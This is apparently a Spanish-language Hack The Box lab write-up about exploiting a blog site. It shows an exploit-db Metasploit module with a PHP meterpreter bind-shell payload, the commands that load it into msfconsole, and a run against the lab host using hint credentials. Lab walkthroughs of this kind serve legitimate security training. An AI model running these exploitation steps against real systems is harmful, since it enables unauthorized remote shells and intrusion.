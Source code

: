 Haciendo un cat a dicho archivo, observo como el "payload" está escrito en PHP:

```
'Platform'       => ['php'],
      'Arch'           => [ ARCH_PHP],
      'Targets'        =>
        [
          ['PHP payload',
            {
              'Platform' => 'PHP',
              'Arch' => ARCH_PHP,
              'DefaultOptions' => {'PAYLOAD'  => 'php/meterpreter/bind_tcp'}

```
Respuesta: *php*

**5. Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt**

Al entrar a msfconsole y buscar por "search 50064", me pone que no existe ningún módulo. 

Teniéndolo ubicado en: "/usr/share/exploitdb/exploits/php/webapps/50064.rb"
Para que metasploit lo encuentre, tengo qué guardarlo en una ruta concreta.
En primer lugar, creo esa ruta con:

```
mkdir -p ~/.msf4/modules/exploits/php/webapps
```
- La opción -p crea todo el árbol de directorios necesario y no da error si ya existe.
- ~/.msf4/modules/exploits/php/webapps es la ruta dentro de tu usuario donde Metasploit busca módulos personalizados. Al crear esa estructura, preparas un lugar donde msf podrá detectar módulos que pongas ahí sin tocar /usr/share.

Ejecuto:
```
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb ~/.msf4/modules/exploits/php/webapps/50064.rb
```

Esto:
- Copia el `50064.rb` desde el repositorio de **exploit-db** (ruta original) hacia mi carpeta personal de módulos de Metasploit (~/.msf4/...).
- Al tener el .rb dentro de ~/.msf4/modules/... y con la estructura correcta (exploits/php/webapps/), msfconsole podrá cargarlo como un módulo cuando recargues los módulos.

Entro a "msfconsole" y ejecuto:
```
run reload_all
```
Para refrescar los módulos de metasploit.

Finalmente, ejecuto:
```
search 50064
use 0
set RHOST 172.16.1.12        (esto lo encuentro mediante el /etc/hosts)
set USER admin               (estas credenciales son una HINT de HTB, que sin ellas no se puede avanzar. HINT de enunciado, no de ejercicio).
set PASSWORD admin123!@#     (estas credenciales son una HINT de HTB, que sin ellas no se puede avanzar. HINT de enunciado, no de ejercicio).
set VHOST blog.inlanefreight.local
run
```
